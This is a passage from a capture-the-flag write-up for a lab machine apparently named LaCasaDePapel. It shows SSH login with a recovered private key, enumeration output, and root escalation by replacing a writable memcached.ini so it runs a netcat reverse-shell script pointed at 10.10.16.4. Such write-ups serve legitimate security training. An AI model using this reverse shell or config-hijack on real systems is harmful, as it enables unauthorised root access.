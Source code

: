 authorized_keys, id_rsa, id_rsa.pub, known_hosts

Finally the issue here was that the stored credential was for another user. Trying each of the users we find out that the professor user was the correct one:

```
ssh professor@$(cat ip) -i  files/id_rsa
```

We run a classic linpeas.sh and find some interesting stuff:
```
╔══════════╣ Users with console
berlin:x:1001:1001:berlin,,,:/home/berlin:/bin/ash
dali:x:1000:1000:dali,,,:/home/dali:/usr/bin/psysh
operator:x:11:0:operator:/root:/bin/sh
postgres:x:70:70::/var/lib/postgresql:/bin/sh
professor:x:1002:1002:professor,,,:/home/professor:/bin/ash
root:x:0:0:root:/root:/bin/ash


...

operator:x:11:0:operator:/root:/bin/sh
```

Operator has /root as main folder. After taking a look to the filesystem, we find an interesting file memcached.ini which contains some potential PE vector:
```
lacasadepapel [~]$ cat memcached.ini
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```

```
lacasadepapel [~]$ ps aux | grep memcached
 3156 memcache  0:05 /usr/bin/memcached -d -p 11211 -U 11211 -l 127.0.0.1 -m 64 -c 1024 -u memcached -P /var/run/memcached/memcached-11211.pid
28768 nobody    0:08 /usr/bin/node /home/professor/memcached.js
28777 professo  0:00 grep memcached
```

We find out that we can move the memcached.ini file without modifying the permissions, so let's create a malicious script and place a new memcached.ini in order to run it as sudo!
```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.4 31415 >/tmp/f' > s.sh
echo '[program:memcached]
command = sudo /bin/sh /home/professor/s.sh' > memcached.ini
```

And Boom we've got a reverse shell with root!

```
37c8...
```